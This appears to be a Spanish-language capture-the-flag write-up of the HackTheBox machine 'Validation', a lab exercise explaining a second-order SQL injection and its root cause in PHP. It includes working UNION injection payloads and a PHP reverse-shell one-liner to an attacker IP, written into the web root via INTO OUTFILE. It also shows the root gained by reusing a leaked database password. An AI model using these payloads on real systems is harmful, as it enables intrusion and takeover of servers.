


+++
title = "HackTheBox - Validation"
draft = false
description = "Resolución de la máquina Validation"
tags = ["HTB", "Linux", "Easy", "SQLi", "Password Reuse"]
summary = "OS: Linux | Dificultad: Easy | Conceptos: Second Order SQLi, MySQL, Reutilización de contraseñas, SQL R/W"
categories = ["Writeups"]
showToc = true
showRelated = true
date = "2025-12-28T00:00:00"
+++

* Dificultad: `easy`
* Tiempo aprox. `~3h`
* **Datos Iniciales**: `10.10.11.116`

### Nmap Scan

Tras realizar un escaneo nmap completo, se encuentran los siguientes puertos abiertos:

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian)) #-> CVE-2021-40438?
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx #-> 403 Forbidden para todo (gobuster no muestra nada)
|_http-title: 403 Forbidden
8080/tcp open  http    nginx #-> Bad Gateway para todo
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
# Nada en UDP
```

Puertos abiertos:
- 22/TCP (SSH): Poco que hacer de momento
- 80/TCP (HTTP): El principal vector de entrada
- 4566,8080/TCP (HTTP): Ninguno de los dos parece funcionar

### 80 TCP
Al entrar a la página encontramos un formulario de Login para registrarse con un nombre de usuario y un país:



Probamos a registrar un usuario mientras vemos las solicitudes y respuestas HTTP en Burpsuite. Al registrar un usuario tienen lugar 4 mensajes:
1. Al pulsar **`Join Now`** como username `usuario` y país `Philippines` vemos que se realiza la siguiente solicitud:

```http
POST / HTTP/1.1
Host: 10.10.11.116
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://10.10.11.116
Connection: keep-alive
Referer: http://10.10.11.116/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=usuario&country=Phillipines
```

Aquí vemos que simplemente mandamos como parámetros `username` y `country`  nuestros datos.

2. El servidor nos responde con una cookie `user` que contiene nuestra info:
```http
HTTP/1.1 302 Found
Date: Sun, 28 Dec 2025 17:14:30 GMT
Server: Apache/2.4.48 (Debian)
X-Powered-By: PHP/7.4.23
Set-Cookie: user=f8032d5cae3de20fcec887f395ec9a6a
Location: /account.php
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

3. Nuestro navegador ahora manda otra nueva solicitud hacia `/account.php` usando la cookie `user` dada.
```http
GET /account.php HTTP/1.1
Host: 10.10.11.116
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.116/
Connection: keep-alive
Cookie: user=f8032d5cae3de20fcec887f395ec9a6a
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

4. El servidor nos responde, mostrándonos una lista de usuarios que han seleccionado nuestro mismo país:


#### Second Order SQLi
Ahora que sabemos lo que hace la página, podemos intuir que el query que tiene lugar por detrás tiene la forma:
```sql
SELECT user FROM usertable WHERE country LIKE 'Philippines'
```

Se trata de un **Second Order SQL injection**. Si usamos `user`=paco1 y como país, en lugar de `Philippines`, mandamos `USA' UNION SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA-- -`, el query quedará:

```sql
SELECT user FROM usertable WHERE country LIKE 'USA' UNION SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA-- -'
```

Miramos el output:



El proceso para ejecutar comandos de MySQL a partir de ahora será:
1. Reenviar mensaje inicial (1) con el siguiente formato de parámetros:
```http
username=<USUARIO>&country=X' UNION <COMANDO>--+-
```

2. Tomar la cookie devuelta por el servidor, p.ej:
```http
Set-Cookie: user=36ec43890818a1106022da24dbc2bab9
```
3. Reenviar tercer mensaje con la cookie nueva y ver el output

> En algunos payloads se va viendo cómo cambio el username (y el país antes del `' UNION` la inyección) cada vez que registro un nuevo usuario (paco1, paco2, Jorge, etc.). Aunque esto no es necesario y los nombres pueden reutilizarse y registrarse varias veces con países diferentes, lo hago para tener el output de cada comando de enumeración aislado del resto de los anteriores. 

#### Enumeración de MySQL
Probamos a ver qué usuarios hay en la base de datos, recibimos lo siguiente:
```http
	<div class="container p-5">
            <h1 class="text-white">
                Welcome paco3
            </h1>
            <h3 class="text-white">
            Other Players In p' UNION SELECT user FROM mysql.user-- -
            </h3>
            <li class='text-white'>
                mariadb.sys</li>
            <li class='text-white'>mysql</li>
            <li class='text-white'>root</li>
            <li class='text-white'>uhc</li>
        </div>
```

Usuarios: `uhc`, `root`, `mysql`, `mariadb.sys`

Para ver el usuario en uso:
```http
username=paco4&country=p' UNION SELECT CURRENT_USER()-- -
```
Respuesta: `uhc@localhost`

Para ver sus permisos de R/W, mandamos el siguente contenido en el campo `country`:
```http
username=paco6&country=X' UNION SELECT file_priv FROM mysql.user WHERE user = 'uhc'-- -
```
Y el servidor nos devuelve "`Y`", lo que indica que `uhc` tiene `privilegios R/W`.


#### R/W, Foothold inicial
Como tenemos 3 sitios web abiertos en el mismo servidor (puertos 80, 4566, 8080), podemos probar a escribir un Reverse Shell al directorio por defecto de *nginx* y *Apache* de Ubuntu, que es para ambos `/var/www/html` y tratar de acceder desde alguno de los 3.

Tratamos de escribir lo siguiente a `/var/www/html/shell.php`:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/4321 0>&1'"); ?>
```

Para que no haya errores de parseo o sintaxis por las comillas, lo codificamos en hexadecimal:

```http
username=paco8&country=X'+UNION+SELECT+0x3C3F706870206578656328222F62696E2F62617368202D63202762617368202D69203E26202F6465762F7463702F31302E31302E31342E31302F3433323120303E26312722293B203F3E+INTO+OUTFILE+'/var/www/html/shell.php'--+-
```

Y probamos a hacer curl a `script.php` con un handler abierto:

```bash
curl http://10.10.11.116:80/shell.php
```

```bash
penelope.py -i tun0 -p 4321
[+] Listening for reverse shells on 10.10.14.10:4321 
[+] Got reverse shell from validation~10.10.11.116-Linux-x86_64 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
───────────────────────────────────────
www-data@validation:/var/www/html$ ls
account.php  config.php  css  index.php  js  shell.php
```

### PrivEsc
Ejecutamos `linPEAS`, que nos muestra algunas cosas relevantes:

- Estamos dentro de un Docker container, tenemos `/usr/bin/nsenter` para intentar escapar, aunque tras probarlo no funciona.
- Archivo `/var/www/html/config.php` con contraseña de `uhc` en MySQL:
```php
Searching passwords in config PHP files...
/var/www/html/config.php:  $password = "uhc-9qual-global-pw";
```
- nginx no está presente en el container, pero sabemos que hay 2 puertos con nginx en escucha, por lo que nginx probablemente esté ejecutándose en el host OS.
- Puertos en escucha (destaca el 35801):
```bash
tcp   LISTEN 0      4096      127.0.0.11:35801      0.0.0.0:*          
tcp   LISTEN 0      80         127.0.0.1:3306       0.0.0.0:*          
tcp   LISTEN 0      511          0.0.0.0:80         0.0.0.0:* 
```

Pruebo a hacer SSH a `root` o `uhc` usando `uhc-9qual-global-pw` para intentar del container en caso de que se estuviesen reutilizando contraseñas para cuentas fuera del entorno de Docker, pero no funciona.

Más adelante, pruebo a hacer `su root` dentro del container con la misma contraseña:

```bash
www-data@validation:/$ su root
Password: uhc-9qual-global-pw
root@validation:/#
```

Y tenemos root, aunque dentro del container, pero dado que la root flag está dentro del propio container, damos la máquina por concluida.

## Post-Root: Código fuente
Aunque ya hemos completado la máquina, podemos intentar entender qué la hacía vulnerable.

Si volvemos a `/var/www/html`, podemos ver el código fuente de `account.php`:
```php
...[SNIP]...
<div class="container">
		<h1 class="text-center m-5">Join the UHC - September Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
            <?php 
              include('config.php');
              $user = $_COOKIE['user'];
              $sql = "SELECT username, country FROM registration WHERE userhash = ?";
              $stmt = $conn->prepare($sql);
              $stmt->bind_param("s", $user);
              $stmt->execute();
              
              $result = $stmt->get_result(); // get the mysqli result
              $row = $result->fetch_assoc(); // fetch data   
              echo '<h1 class="text-white">Welcome ' . $row['username'] . '</h1>';
              echo '<h3 class="text-white">Other Players In ' . $row['country'] . '</h3>';
              $sql = "SELECT username FROM registration WHERE country = '" . $row['country'] . "'";
              $result = $conn->query($sql);
              while ($row = $result->fetch_assoc()) {
                echo "<li class='text-white'>" . $row['username'] . "</li>";
              }
?>
		</div>
	</section>
</div>
```

En las primeras líneas, el código trata la cookie `user` estrictamente como datos, por lo que no hay fallo de seguridad ahí:
```php
include('config.php');
$user = $_COOKIE['user'];
$sql = "SELECT username, country FROM registration WHERE userhash = ?";
$stmt = $conn->prepare($sql);
$stmt->bind_param("s", $user);
$stmt->execute();
```

Aquí el código php manda directamente `"SELECT username, country FROM registration WHERE userhash = ?"` a MySQL, y MySQL toma `?` como **un placeholder para una cadena de texto literal.** 

Cuando el usuario manda su username, PHP manda el username a MySQL, y como MySQL sabe que lo que le faltaba por llegar es una cadena de texto literal, lo toma como un simple string, y no hay lugar para inyección de comandos, aunque ponga `UNION`, `'` o cualquier otra cosa.

En las siguientes líneas ya podemos ver la vulnerabilidad. Cuando tiene que sacar todos los usuarios de un país específico, lo hace de forma directa, y da por hecho que, dado que ya tiene `country` guardado en la DB, no hay vulnerabilidad:

```php
$sql = "SELECT username FROM registration WHERE country = '" . $row['country'] . "'";
```
> Este query es prácticamente el mismo que habíamos imaginado antes, al construir nuestro payload malicioso para la SQLi

Aquí, si antes habíamos puesto algo que pudiese tomarse como comando en el campo `country`, ahora se convierte en comando realmente. Esto viene principalmente de la asunción del programador de que, si los datos estaban ya en la base de datos, era seguro usarlos sin filtros más adelante.
